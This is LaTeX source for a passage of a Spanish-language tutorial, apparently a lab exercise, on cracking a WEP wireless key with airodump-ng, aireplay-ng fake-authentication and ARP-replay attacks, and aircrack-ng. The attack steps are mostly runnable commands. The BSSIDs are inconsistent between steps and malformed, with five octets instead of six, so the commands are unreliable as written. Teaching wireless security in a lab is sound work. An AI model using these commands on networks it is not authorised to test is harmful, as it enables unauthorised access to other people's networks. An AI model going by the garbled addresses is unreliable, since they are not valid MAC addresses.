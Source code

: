 \documentclass[11pt,a4paper]{scrartcl}			%
\begin{document}
\begin{multicols*}{2}
\begin{enumerate}
\begin{verbatim}
# airodump-ng -c 10 -w wirelessattack \
	--bssid 09:BC:90:00:78 wlan0
\end{verbatim}

\item Deje esta terminal así. 

\end{enumerate}

\subsection{Iniciando el Ataque}

\begin{enumerate}


\item Abra otra terminal; para intentar hacer asociaciones, vamos a ejecutar aireplay en modo de ataque 1, el cual consiste en una "Autenticación Ficticia al Access Point" con un delay de 0. Estableciendo el AP con -a, el source MAC Address con -h y por último estableciendo el ESSID objetivo con la opción -e, la sintaxis completa es como sigue: aireplay-ng -1 0 -a [BSSID] -h [MAC address elegida] -e [ESSID] [Interface]. 

\begin{verbatim}
# aireplay-ng -1 0 -a 09:AC:90:AB:78 \
	-h 00:11:22:33:44:55 -e lab2 wlan0
\end{verbatim}

\item En otra terminal, vamos a enviar algo de tráfico al router para que tengamos algunos datos para capturar. Para ello enviaremos solicitudes ARP estándar utilizando el modo de ataque 3. En este caso la sintaxis de aireplay es:  aireplay-ng -3 -b [BSSID] -h [MAC address elegido] [Interface]

\begin{verbatim}
# aireplay-ng -3 -b 09:AC:90:AB:78 \
	-h 00:11:22:33:44:55 wlan0
\end{verbatim}

\item En la terminal se podrá ver tráfico. Esperemos al menos 1 o 2 minutos hasta que tengamos suficiente información para correr el crack. 

\item Finalmente volvemos a correr AirCrack para crackear la llave WEP.

\begin{verbatim}
# aircrack-ng -b 09:AC:90:AB:78 \
	wirelessattack.cap
\end{verbatim}


\end{enumerate}
\end{multicols*}
\end{document}
